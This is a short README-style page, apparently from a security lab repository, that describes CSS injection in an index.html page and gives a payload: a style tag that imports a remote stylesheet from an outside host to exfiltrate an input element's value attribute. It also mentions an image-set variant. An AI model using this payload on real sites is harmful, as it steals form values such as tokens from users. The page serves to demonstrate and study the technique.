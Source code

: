 ## CSS Data exfiltration using Attribute selector

`index.html` is injectable with CSS code. Inserting the following payload in the get parameter of the url will extract the value of the `value` attribute in the input element.

Payload: 
```css
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```

Quicker way to do it is to use the `image-set` method.